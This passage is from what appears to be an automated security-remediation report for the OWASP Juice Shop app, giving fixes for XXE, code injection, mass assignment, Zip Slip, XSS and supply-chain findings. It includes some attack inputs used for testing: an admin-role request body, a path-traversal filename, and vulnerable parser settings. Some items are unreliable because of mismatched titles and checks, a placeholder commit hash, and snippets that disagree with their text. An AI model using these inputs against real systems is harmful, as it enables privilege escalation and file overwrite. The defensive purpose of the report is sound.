**How:** In `server.ts:483`, change the User resource definition to `{ name: 'User', exclude: ['password', 'totpSecret', 'role', 'deluxeToken', 'totpSecret'], model: UserModel }` so the finale layer strips these fields from the POST body before Sequelize `create()`. Alternatively, add a `resource.create.fetch.before` hook that explicitly deletes `context.attributes.role` and sets it to the default value 'customer', similar to the wallet creation hook at `server.ts:509`. Add a test that POSTs to `/api/Users` with role='admin' and verifies the created user has role='customer'.

1. In `server.ts:483`, change the User resource definition to `{ name: 'User', exclude: ['password', 'totpSecret', 'role', 'deluxeToken', 'totpSecret'], model: UserModel }` so the finale layer strips these fields from the POST body before Sequelize `create()`.
2. Alternatively, add a `resource.create.fetch.before` hook that explicitly deletes `context.attributes.role` and sets it to the default value 'customer', similar to the wallet creation hook at `server.ts:509`.
3. Add a test that POSTs to `/api/Users` with role='admin' and verifies the created user has role='customer'.

```javascript
// server.ts — add a before-create hook to strip role
if (name === 'User') {
  resource.create.fetch.before((req, res, context) => {
    delete context.attributes.role
    return context.continue
  })
}
```

**Reference:** CWE-915

---

<a id="m-020"></a>
#### M-020 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🔴 [F-010](#f-010) — XXE (`routes/fileUpload.ts:83`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `fileUpload.ts:83`

**How:** Change the `parseXml` call at `fileUpload.ts:83` to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` - setting `noent: false` prevents external entity resolution at the C library level. Additionally disable the DOCTYPE declaration entirely using `libxml.parseXml(data, { noent: false, nonet: true, dtdload: false, dtdattr: false })` to block all external DTD loading. Do not reflect the parsed XML content in HTTP responses; replace the error message at line 87 with a fixed string that does not include `xmlString`. If the B2B XML upload is deprecated (as the comment at line 78 suggests), consider removing the XML parsing branch entirely and returning HTTP 410 with a static message for all XML uploads.

1. Change the `parseXml` call at `fileUpload.ts:83` to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` - setting `noent: false` prevents external entity resolution at the C library level.
2. Additionally disable the DOCTYPE declaration entirely using `libxml.parseXml(data, { noent: false, nonet: true, dtdload: false, dtdattr: false })` to block all external DTD loading.
3. Do not reflect the parsed XML content in HTTP responses; replace the error message at line 87 with a fixed string that does not include `xmlString`.
4. If the B2B XML upload is deprecated (as the comment at line 78 suggests), consider removing the XML parsing branch entirely and returning HTTP 410 with a static message for all XML uploads.

```javascript
// fileUpload.ts:83 — before
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })',
  sandbox, { timeout: 2000 }
)

// after
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nonet: true, nocdata: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-021"></a>
#### M-021 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-011](#f-011) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Remove the `notevil` import and `vm.runInContext` call from `routes/b2bOrder.ts` entirely - do not use any JavaScript expression evaluator for business-logic input. Define an explicit JSON schema (using `zod` or `joi`) for the expected order line structure and validate `body.orderLinesData` against it before processing. If dynamic expressions are genuinely required by the B2B API contract, isolate evaluation in a dedicated sandboxed child process (`Node.js` `--experimental-vm-modules` with a dedicated worker_thread) with no access to the parent process scope, and enforce strict input size limits. Add an integration test that submits a known `notevil` sandbox-escape payload and asserts a 400/422 response, not code execution.

1. Remove the `notevil` import and `vm.runInContext` call from `routes/b2bOrder.ts` entirely - do not use any JavaScript expression evaluator for business-logic input.
2. Define an explicit JSON schema (using `zod` or `joi`) for the expected order line structure and validate `body.orderLinesData` against it before processing.
3. If dynamic expressions are genuinely required by the B2B API contract, isolate evaluation in a dedicated sandboxed child process (`Node.js` `--experimental-vm-modules` with a dedicated worker_thread) with no access to the parent process scope, and enforce strict input size limits.
4. Add an integration test that submits a known `notevil` sandbox-escape payload and asserts a 400/422 response, not code execution.

```typescript
import { z } from 'zod'

const OrderLineSchema = z.object({
  productId: z.number().int().positive(),
  quantity: z.number().int().positive().max(1000),
  unitPrice: z.number().positive()
})
const OrderSchema = z.object({
  cid: z.string(),
  orderLinesData: z.array(OrderLineSchema)
})

// In handler:
const parsed = OrderSchema.safeParse(req.body)
if (!parsed.success) return res.status(422).json({ error: parsed.error.flatten() })
```

**Reference:** CWE-94

---

<a id="m-022"></a>
#### M-022 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-012](#f-012) — Server-Side Template Injection (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/userProfile.ts:55`

**How:** Remove the `eval(code)` block at `routes/userProfile.ts:55-68` entirely. Replace the username substitution with HTML-entity encoding: `username = entities.encode(user.username ?? '')` before the template replace. If the challenge SSTI payload must remain functional for the intentional vulnerability scenario, isolate it in a separate sandboxed process with no access to `require` - e.g. via `worker_threads` with a whitelist of permitted operations.

1. Remove the `eval(code)` block at `routes/userProfile.ts:55-68` entirely.
2. Replace the username substitution with HTML-entity encoding: `username = entities.encode(user.username ?? '')` before the template replace.
3. If the challenge SSTI payload must remain functional for the intentional vulnerability scenario, isolate it in a separate sandboxed process with no access to `require` - e.g. via `worker_threads` with a whitelist of permitted operations.

```javascript
// routes/userProfile.ts — safe replacement (non-challenge build)
let username = entities.encode(user.username ?? '')
template = template.replace(/_username_/g, username)
```

**Reference:** CWE-94

---

<a id="m-023"></a>
#### M-023 — Restrict writable attributes on POST /api/Users to exclude the role field

**Addresses:**

- 🔴 [F-013](#f-013) — Mass Assignment Admin Role (`server.ts:499`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:500`

**How:** Pass `writeableAttributes: ['email', 'password', 'passwordRepeat', 'securityQuestion', 'securityAnswer']` to the `finale.resource()` call for the User model at `server.ts:500-504`, explicitly excluding `role`, `totpSecret`, `isActive`, and `deletedAt`. Add a `beforeCreate` hook on `UserModel` that forces `role = 'customer'` regardless of the incoming body value. Verify the fix by checking that `POST /api/Users` with `{"role":"admin"}` creates a `customer`-role account.

1. Pass `writeableAttributes: ['email', 'password', 'passwordRepeat', 'securityQuestion', 'securityAnswer']` to the `finale.resource()` call for the User model at `server.ts:500-504`, explicitly excluding `role`, `totpSecret`, `isActive`, and `deletedAt`.
2. Add a `beforeCreate` hook on `UserModel` that forces `role = 'customer'` regardless of the incoming body value.
3. Verify the fix by checking that `POST /api/Users` with `{"role":"admin"}` creates a `customer`-role account.

```javascript
// server.ts — finale resource for User
finale.resource({
  model: UserModel,
  endpoints: ['/api/Users', '/api/Users/:id'],
  excludeAttributes: ['password', 'totpSecret'],
  writeableAttributes: ['email', 'password', 'passwordRepeat']
})
```

**Reference:** CWE-915

---

<a id="m-024"></a>
#### M-024 — Constrain file paths to a safe base directory

**Addresses:**

- 🔴 [F-014](#f-014) — Zip Slip Arbitrary File Write (`routes/fileUpload.ts:45`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/fileUpload.ts:45`

**How:** Replace `fs.createWriteStream('uploads/complaints/' + fileName)` at line 45 with a stream to the pre-resolved `absolutePath` variable that was already computed at line 42. Strengthen the guard at line 44: change to `if (!absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep))` - use `startsWith` with a trailing path separator to prevent a filename like `../complaints_evil` from matching a prefix. Reject or skip ZIP entries whose `fileName` contains `..` before any path resolution. Consider using the `unzipper` library's `entry.autodrain()` for any entry that fails validation instead of writing.

1. Replace `fs.createWriteStream('uploads/complaints/' + fileName)` at line 45 with a stream to the pre-resolved `absolutePath` variable that was already computed at line 42.
2. Strengthen the guard at line 44: change to `if (!absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep))` - use `startsWith` with a trailing path separator to prevent a filename like `../complaints_evil` from matching a prefix.
3. Reject or skip ZIP entries whose `fileName` contains `..` before any path resolution.
4. Consider using the `unzipper` library's `entry.autodrain()` for any entry that fails validation instead of writing.

```javascript
const targetDir = path.resolve('uploads/complaints') + path.sep
const absolutePath = path.resolve('uploads/complaints/' + fileName)
if (!absolutePath.startsWith(targetDir)) {
  entry.autodrain()  // reject traversal entries
  return
}
// Write to the pre-resolved absolute path, not the raw fileName
entry.pipe(fs.createWriteStream(absolutePath).on('error', (err) => next(err)))
```

**Reference:** CWE-22

---

### P2 — This Sprint

<a id="m-001"></a>
#### M-001 — Architecture review: validate Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-065](#f-065) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

**How:** This is an architectural / coverage-gap finding - the analyser inferred 'Data disclosure through cleartext transport' from architectural reasoning, not from a confirmed source-to-sink path. Schedule a focused review of data to validate the assumption: read the relevant control implementation, sample 2–3 representative call paths, and decide whether to convert the finding into a concrete defect (with file:line evidence) or accept the residual risk. This single review card covers 1 clustered `finding(s)` under the same theme to avoid [§9](#9-abuse-cases) inflation.

---

<a id="m-002"></a>
#### M-002 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-029](#f-029) — Uses --unsafe-perm flag — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user - `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

---

<a id="m-003"></a>
#### M-003 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-031](#f-031) — GitHub Actions workflow missing top-level permissions block (`ci.yml`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-004"></a>
#### M-004 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-032](#f-032) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:161`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-005"></a>
#### M-005 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-033](#f-033) — On disabled lockfile integrity not enforced

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.npmrc:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI - Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-006"></a>
#### M-006 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-034](#f-034) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-013"></a>
#### M-013 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential (`oauth.component.ts:30`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** Remove the password derivation from `oauth.component.ts` lines 30 and 46. OAuth-linked accounts must not have a usable local password. At the server (`routes/login.ts`), when `oauth: true` is passed, validate the Google `access_token` server-side using Google's token info endpoint, then issue a Juice Shop JWT directly without a password check. Mark OAuth-only accounts in the `Users` table with a NULL password and reject any direct password-based login attempt for those accounts. Rotate any accounts whose passwords were derived this way (likely all `googlemail`/`gmail` accounts in the seeded DB).

1. Remove the password derivation from `oauth.component.ts` lines 30 and 46. OAuth-linked accounts must not have a usable local password.
2. At the server (`routes/login.ts`), when `oauth: true` is passed, validate the Google `access_token` server-side using Google's token info endpoint, then issue a Juice Shop JWT directly without a password check.
3. Mark OAuth-only accounts in the `Users` table with a NULL password and reject any direct password-based login attempt for those accounts.
4. Rotate any accounts whose passwords were derived this way (likely all `googlemail`/`gmail` accounts in the seeded DB).

```javascript
// oauth.component.ts — REMOVE lines 30–31 and 46
// Instead, send the access_token to a dedicated server endpoint:
this.userService.oauthLoginWithToken(profile.access_token).subscribe({
  next: (authentication) => {
    localStorage.setItem('token', authentication.token);
    // ...
  }
});
```

**Reference:** CWE-798

---

<a id="m-025"></a>
#### M-025 — Replace OAuth Implicit Flow with Authorization Code Flow with PKCE and state validation

**Addresses:**

- 🟠 [F-015](#f-015) — OAuth Implicit Flow Without State or PKCE (`login.component.ts:134`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `login.component.ts:134`

**How:** Switch `response_type` from `token` to `code` in the Google OAuth redirect URL at `login.component.ts:134`. Generate a cryptographically random `state` value (use `crypto.getRandomValues`), store it in `sessionStorage`, and append it to the authorization URL. On callback, verify the returned `state` matches before proceeding. Implement PKCE: generate a `code_verifier` (random 43–128 char string), compute `code_challenge = BASE64URL(SHA256(code_verifier))`, and include `code_challenge_method=S256&code_challenge=<challenge>` in the authorization URL. Handle the callback server-side (or via a dedicated BFF endpoint) to exchange the code for tokens using the `code_verifier`, keeping the access token off the browser URL.

1. Switch `response_type` from `token` to `code` in the Google OAuth redirect URL at `login.component.ts:134`.
2. Generate a cryptographically random `state` value (use `crypto.getRandomValues`), store it in `sessionStorage`, and append it to the authorization URL. On callback, verify the returned `state` matches before proceeding.
3. Implement PKCE: generate a `code_verifier` (random 43–128 char string), compute `code_challenge = BASE64URL(SHA256(code_verifier))`, and include `code_challenge_method=S256&code_challenge=<challenge>` in the authorization URL.
4. Handle the callback server-side (or via a dedicated BFF endpoint) to exchange the code for tokens using the `code_verifier`, keeping the access token off the browser URL.

```javascript
// Generate state + PKCE verifier before redirect
const state = crypto.randomUUID();
sessionStorage.setItem('oauth_state', state);
const verifier = generateCodeVerifier(); // 43-128 random chars
sessionStorage.setItem('pkce_verifier', verifier);
const challenge = await generateCodeChallenge(verifier); // SHA-256 + base64url
window.location.replace(
  `${oauthProviderUrl}?client_id=${clientId}&response_type=code&scope=email` +
  `&redirect_uri=${redirectUri}&state=${state}&code_challenge_method=S256&code_challenge=${challenge}`
);
```

**Reference:** CWE-522

---

<a id="m-026"></a>
#### M-026 — Key rate limiting on the server-validated remote IP, not client X-Forwarded-For

**Addresses:**

- 🟠 [F-016](#f-016) — Rate Limit Bypass (`server.ts:346`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:346`

**How:** Remove the custom `keyGenerator` or replace it with `req.socket.remoteAddress` (the actual TCP connection IP): `keyGenerator: (req) => req.socket.remoteAddress ?? req.ip`. If behind a known reverse proxy (e.g., nginx), configure `trust proxy` to a specific IP or hop count (`app.set('trust proxy', 1)`) so that Express only trusts the first hop's IP - not the full X-Forwarded-For chain. Lower the rate limit threshold for security-sensitive flows: e.g., 10 attempts per 15 minutes.

1. Remove the custom `keyGenerator` or replace it with `req.socket.remoteAddress` (the actual TCP connection IP): `keyGenerator: (req) => req.socket.remoteAddress ?? req.ip`.
2. If behind a known reverse proxy (e.g., nginx), configure `trust proxy` to a specific IP or hop count (`app.set('trust proxy', 1)`) so that Express only trusts the first hop's IP - not the full X-Forwarded-For chain.
3. Lower the rate limit threshold for security-sensitive flows: e.g., 10 attempts per 15 minutes.

**Reference:** CWE-640

---

<a id="m-027"></a>
#### M-027 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-017](#f-017) — Unpinned GitHub Action Tag Reference (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `ci.yml:161`

**How:** For each `uses: github/codeql-action/*@v3` step in `.github/workflows/codeql-analysis.yml`, replace the tag reference with the full 40-character commit SHA of the current `v3` tag tip, e.g. `uses: github/codeql-action/init@<sha> # v3.27.0`. Enable Dependabot for GitHub Actions (`dependabot.yml` under `.github/`) with `package-ecosystem: github-actions` so SHA pins are auto-updated with version bumps. Also pin `coverallsapp/github-action@v2` in `ci.yml:161` using the same pattern.

1. For each `uses: github/codeql-action/*@v3` step in `.github/workflows/codeql-analysis.yml`, replace the tag reference with the full 40-character commit SHA of the current `v3` tag tip, e.g. `uses: github/codeql-action/init@<sha> # v3.27.0`.
2. Enable Dependabot for GitHub Actions (`dependabot.yml` under `.github/`) with `package-ecosystem: github-actions` so SHA pins are auto-updated with version bumps. Also pin `coverallsapp/github-action@v2` in `ci.yml:161` using the same pattern.

```javascript
# .github/workflows/codeql-analysis.yml
- name: Initialize CodeQL
  uses: github/codeql-action/init@b9e3a9f0f67b9b3a9f0f67b9b3a9f0f67b9b3a9f #v3.27.0
  with:
    languages: ${{ matrix.language }}
```

**Reference:** CWE-829

---

<a id="m-028"></a>
#### M-028 — Enforce JWT authentication middleware on POST /file-upload before all upload handlers

**Addresses:**

- 🔴 [F-018](#f-018) — Missing Authentication on `/file-upload` Multipart Upload Endpoint (`server.ts:309`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:309`

**How:** Add `security.isAuthorized()` or `passport.authenticate('jwt', { session: false })` as the first middleware on the `POST /file-upload` route in `server.ts` before `uploadToMemory.single('file')`. Restrict the endpoint to users whose `role` claim in the JWT includes `customer` or `b2b`; reject anonymous and unauthenticated requests with HTTP 401. Add an integration test asserting that unauthenticated `POST /file-upload` returns 401 rather than 204/410.

1. Add `security.isAuthorized()` or `passport.authenticate('jwt', { session: false })` as the first middleware on the `POST /file-upload` route in `server.ts` before `uploadToMemory.single('file')`.
2. Restrict the endpoint to users whose `role` claim in the JWT includes `customer` or `b2b`; reject anonymous and unauthenticated requests with HTTP 401.
3. Add an integration test asserting that unauthenticated `POST /file-upload` returns 401 rather than 204/410.

```javascript
// server.ts
app.post('/file-upload',
  security.isAuthorized(),          // <-- add this gate
  uploadToMemory.single('file'),
  ensureFileIsPassed,
  checkUploadSize,
  checkFileType,
  handleZipFileUpload,
  handleXmlUpload,
  handleYamlUpload
)
```

**Reference:** CWE-306

---

<a id="m-029"></a>
#### M-029 — Add authentication middleware to Socket\.IO connection handler

**Addresses:**

- 🔴 [F-019](#f-019) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Implement a Socket\.IO `io.use()` middleware that reads the JWT from the `auth` handshake parameter or `Authorization` header: `io.use((socket, next) => { const token = socket.handshake.auth.token; verify(token, secret, (err, decoded) => { if (err) return next(new Error('Unauthorized')); socket.data.user = decoded; next(); }); })`. Reject unauthenticated connections before the `connection` event fires; ensure the client sends the Bearer token in the Socket\.IO handshake `auth` object: `io('ws://host:3000', { auth: { token: localStorage.getItem('token') } })`. Scope per-message handlers (`notification received`, `verifyLocalXssChallenge`, etc.) to check `socket.data.user` before processing, ensuring session identity is available for all handler logic.

1. Implement a Socket\.IO `io.use()` middleware that reads the JWT from the `auth` handshake parameter or `Authorization` header: `io.use((socket, next) => { const token = socket.handshake.auth.token; verify(token, secret, (err, decoded) => { if (err) return next(new Error('Unauthorized')); socket.data.user = decoded; next(); }); })`.
2. Reject unauthenticated connections before the `connection` event fires; ensure the client sends the Bearer token in the Socket\.IO handshake `auth` object: `io('ws://host:3000', { auth: { token: localStorage.getItem('token') } })`.
3. Scope per-message handlers (`notification received`, `verifyLocalXssChallenge`, etc.) to check `socket.data.user` before processing, ensuring session identity is available for all handler logic.

```javascript
// In registerWebsocketEvents.ts
io.use((socket: any, next: any) => {
  const token = socket.handshake.auth?.token
  if (!token) return next(new Error('Authentication required'))
  try {
    socket.data.user = security.verify(token)
    next()
  } catch {
    next(new Error('Invalid token'))
  }
})
```

**Reference:** CWE-306

---

<a id="m-030"></a>
#### M-030 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-020](#f-020) — Stored XSS in Product Descriptions (`search-result.component.ts:132`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:** In `trustProductDescription()` at line 132, replace `bypassSecurityTrustHtml(tableData[i].description)` with `this.sanitizer.sanitize(SecurityContext.HTML, tableData[i].description)` to allow safe HTML (bold, italics) while stripping scripts and event handlers. Alternatively, strip HTML entirely and render descriptions as plain text using `{{product.description}}` in the template. On the server side, validate and sanitize product description input at write time using `sanitize-html` (upgrade from 1.4.2 to >=2.x) to prevent malicious content from reaching the DB.

1. In `trustProductDescription()` at line 132, replace `bypassSecurityTrustHtml(tableData[i].description)` with `this.sanitizer.sanitize(SecurityContext.HTML, tableData[i].description)` to allow safe HTML (bold, italics) while stripping scripts and event handlers.
2. Alternatively, strip HTML entirely and render descriptions as plain text using `{{product.description}}` in the template.
3. On the server side, validate and sanitize product description input at write time using `sanitize-html` (upgrade from 1.4.2 to >=2.x) to prevent malicious content from reaching the DB.

```javascript
import { SecurityContext } from '@angular/core';
// BEFORE:
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description);
// AFTER:
tableData[i].description = this.sanitizer.sanitize(SecurityContext.HTML, tableData[i].description) ?? '';
```

**Reference:** CWE-79

---

<a id="m-031"></a>
#### M-031 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-021](#f-021) — Reflected DOM XSS (`search-result.component.ts:170`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:** Replace the `bypassSecurityTrustHtml` call at line 170 with a plain string assignment: `this.searchValue = queryParam`. Update the template binding from `[innerHTML]="searchValue"` to `{{searchValue}}` so Angular's auto-escaping renders the text safely. If HTML formatting in search results is a product requirement, pass the value through `DomSanitizer.sanitize(SecurityContext.HTML, queryParam)` instead of `bypassSecurityTrustHtml`. Add a Content Security Policy header server-side (`Content-Security-Policy: default-src 'self'; script-src 'self'`) to limit the impact of any residual XSS.

1. Replace the `bypassSecurityTrustHtml` call at line 170 with a plain string assignment: `this.searchValue = queryParam`. Update the template binding from `[innerHTML]="searchValue"` to `{{searchValue}}` so Angular's auto-escaping renders the text safely.
2. If HTML formatting in search results is a product requirement, pass the value through `DomSanitizer.sanitize(SecurityContext.HTML, queryParam)` instead of `bypassSecurityTrustHtml`.
3. Add a Content Security Policy header server-side (`Content-Security-Policy: default-src 'self'; script-src 'self'`) to limit the impact of any residual XSS.

```javascript
// BEFORE (vulnerable):
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam);

// AFTER (safe):
this.searchValue = queryParam; // template uses {{searchValue}}, not [innerHTML]
```

**Reference:** CWE-79

---

<a id="m-032"></a>
#### M-032 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-022](#f-022) — MD5 Password Hashing (`lib/insecurity.ts:43`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/login.ts:34`

**How:** Replace `security.hash()` with `bcrypt.hash(password, 12)` for storage and `bcrypt.compare(inputPassword, storedHash)` for verification. Run a one-time migration: on each successful login, if the stored hash is `MD5` format (32 hex chars), re-hash the verified password with bcrypt and update the record. Update the `UserModel` password field length from 64 to 60 characters to accommodate bcrypt hashes. Audit all callers of `security.hash()` - `routes/login.ts:34`, `routes/2fa.ts:113` - to use the new bcrypt comparison.

1. Replace `security.hash()` with `bcrypt.hash(password, 12)` for storage and `bcrypt.compare(inputPassword, storedHash)` for verification.
2. Run a one-time migration: on each successful login, if the stored hash is `MD5` format (32 hex chars), re-hash the verified password with bcrypt and update the record.
3. Update the `UserModel` password field length from 64 to 60 characters to accommodate bcrypt hashes.
4. Audit all callers of `security.hash()` - `routes/login.ts:34`, `routes/2fa.ts:113` - to use the new bcrypt comparison.

```javascript
import bcrypt from 'bcrypt'
// Storage
const hashed = await bcrypt.hash(plaintext, 12)
// Verification
const matches = await bcrypt.compare(plaintext, hashed)
```

**Reference:** CWE-916

---

<a id="m-033"></a>
#### M-033 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-023](#f-023) — Disabled Lockfile Enforcement Allows Dependency Substitution

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `ci.yml:85`

**How:** Remove the `package-lock=false` line from `.npmrc`. Run `npm install` locally to generate `package-lock.json`, commit it, and push. Update all CI jobs that run `npm install` without `--ignore-scripts` (`ci.yml:85`, `ci.yml:125`, `ci.yml:211`, `release.yml:41`) to use `npm ci` instead of `npm install`. `npm ci` enforces the lockfile and fails if `package-lock.json` is absent or inconsistent, giving deterministic dependency resolution on every build.

1. Remove the `package-lock=false` line from `.npmrc`. Run `npm install` locally to generate `package-lock.json`, commit it, and push.
2. Update all CI jobs that run `npm install` without `--ignore-scripts` (`ci.yml:85`, `ci.yml:125`, `ci.yml:211`, `release.yml:41`) to use `npm ci` instead of `npm install`. `npm ci` enforces the lockfile and fails if `package-lock.json` is absent or inconsistent, giving deterministic dependency resolution on every build.

```javascript
# .github/workflows/ci.yml — replace npm install with npm ci in all test jobs
- name: "Install application"
  run: npm ci    # fails if package-lock.json is missing or out of date
```

**Reference:** CWE-829

---

<a id="m-034"></a>
#### M-034 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-024](#f-024) — Unsafe Postinstall Hook Execution During Production Docker Build — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove `--unsafe-perm` from the `npm install` command at `Dockerfile:5`. Modern npm (v7+) does not require this flag for production installs; it was historically needed for older npm lifecycle script behaviour. After committing `package-lock.json` (see `ci-cd-pipeline-002`), change `Dockerfile:5` to `npm ci --omit=dev` so the Docker build uses the pinned lockfile and fails on any lockfile mismatch, preventing silent dependency substitution in the build stage.

1. Remove `--unsafe-perm` from the `npm install` command at `Dockerfile:5`. Modern npm (v7+) does not require this flag for production installs; it was historically needed for older npm lifecycle script behaviour.
2. After committing `package-lock.json` (see `ci-cd-pipeline-002`), change `Dockerfile:5` to `npm ci --omit=dev` so the Docker build uses the pinned lockfile and fails on any lockfile mismatch, preventing silent dependency substitution in the build stage.

```javascript
# Dockerfile — installer stage
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm ci --omit=dev    # was: npm install --omit=dev --unsafe-perm
```

**Reference:** CWE-829

---

<a id="m-035"></a>
#### M-035 — Use parameterized database queries

**Addresses:**

- 🔴 [F-025](#f-025) — NoSQL Injection with multi:true Enables (`routes/updateProductReviews.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:18`

**How:** Change the update filter to `{ _id: req.body.id, author: user.data.email }` so only the authenticated user's own review can be updated. Remove `{ multi: true }` from the update options - single-document updates should never use multi. Validate that `req.body.id` is a string type before passing it to the MarsDB filter to prevent operator injection.

1. Change the update filter to `{ _id: req.body.id, author: user.data.email }` so only the authenticated user's own review can be updated.
2. Remove `{ multi: true }` from the update options - single-document updates should never use multi.
3. Validate that `req.body.id` is a string type before passing it to the MarsDB filter to prevent operator injection.

```javascript
// routes/updateProductReviews.ts
db.reviewsCollection.update(
  { _id: String(req.body.id), author: user.data.email },  // ownership check
  { $set: { message: req.body.message } },
  { multi: false }  // never bulk-update
)
```

**Reference:** CWE-943

---

<a id="m-036"></a>
#### M-036 — Add security audit logging

**Addresses:**

- 🟠 [F-026](#f-026) — Missing Security Audit Log (`server.ts:338`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:281`

**How:** Emit a structured JSON security event on every login attempt (success and failure), JWT rejection by `express-jwt`, admin endpoint hit, and data-export request - include actor IP, user ID, outcome, and timestamp. Write security events to a separate append-only log sink (e.g. a separate file stream via `winston` with `maxFiles: 0`) - distinct from the HTTP access log. Protect the log endpoint: remove unauthenticated access at `/support/logs/` (`server.ts:281`) or restrict to accounting/admin role.

1. Emit a structured JSON security event on every login attempt (success and failure), JWT rejection by `express-jwt`, admin endpoint hit, and data-export request - include actor IP, user ID, outcome, and timestamp.
2. Write security events to a separate append-only log sink (e.g. a separate file stream via `winston` with `maxFiles: 0`) - distinct from the HTTP access log.
3. Protect the log endpoint: remove unauthenticated access at `/support/logs/` (`server.ts:281`) or restrict to accounting/admin role.

```javascript
// lib/securityLogger.ts
import winston from 'winston'
export const seclog = winston.createLogger({
  format: winston.format.json(),
  transports: [new winston.transports.File({ filename: 'logs/security.log' })]
})
// usage in routes/login.ts after auth:
seclog.info({ event:'login', outcome:'success', userId: user.data.id, ip: req.ip })
```

**Reference:** CWE-778

---

<a id="m-037"></a>
#### M-037 — Eliminate token-in-fragment by migrating to Authorization Code Flow with PKCE

**Addresses:**

- 🟠 [F-027](#f-027) — OAuth Access Token Exposed in URL Fragment (`app.routing.ts:262`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.routing.ts:262`

**How:** Migrate from `response_type=token` to `response_type=code` as described in angular-spa-001 remediation. The Authorization Code callback delivers a `code` parameter in the query string (not fragment), which is exchanged server-side for tokens - tokens never appear in the URL. Ensure the BFF/backend exchange endpoint strips the `code` from the redirect URL immediately after use.

1. Migrate from `response_type=token` to `response_type=code` as described in angular-spa-001 remediation.
